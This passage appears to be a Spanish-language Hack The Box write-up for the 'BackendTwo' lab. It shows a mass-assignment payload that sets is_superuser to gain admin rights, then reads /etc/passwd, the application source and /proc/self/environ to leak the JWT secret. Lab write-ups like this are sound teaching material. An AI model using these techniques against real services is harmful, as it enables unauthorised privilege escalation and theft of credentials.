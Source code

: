 ## Ataque de asignación masiva

El endpoint de edición de perfil es vulnerable a asignación masiva. Aunque la documentación solo muestra el campo "profile", podemos agregar campos adicionales:

```json
{
  "profile": "massasignament",
  "email": "test@htb.htb",
  "is_superuser": true
}
```

Esto nos permite elevarnos a superusuario:

```json
{
  "guid": "f4350520-f6dd-4c66-b9c9-04aa687f0bb6",
  "email": "new@test.htb",
  "profile": "massasignament",
  "last_update": null,
  "time_created": 1651007826026,
  "is_superuser": true,
  "id": 12
}
```

## Lectura de archivos del sistema

Podemos leer archivos del sistema como `/etc/passwd`:

![Lectura de /etc/passwd](/secciones/posts/imagenes/backendtwo/ecpass1.avif)

### Obtención de código fuente

Accedemos al código de la aplicación:
- `/home/htb/app/main.py`
- `/home/htb/app/core/config.py`

![Código de config.py](/secciones/posts/imagenes/backendtwo/py1.avif)
![Contenido de config.py](/secciones/posts/imagenes/backendtwo/py2.avif)

### Fuga de API_KEY

El archivo de configuración obtiene su secreto de una variable de entorno:
```python
JWT_SECRET: str = os.environ['API_KEY']
```

Leemos `/proc/self/environ` para obtenerla:

![Variable de entorno API_KEY](/secciones/posts/imagenes/backendtwo/py3.avif)
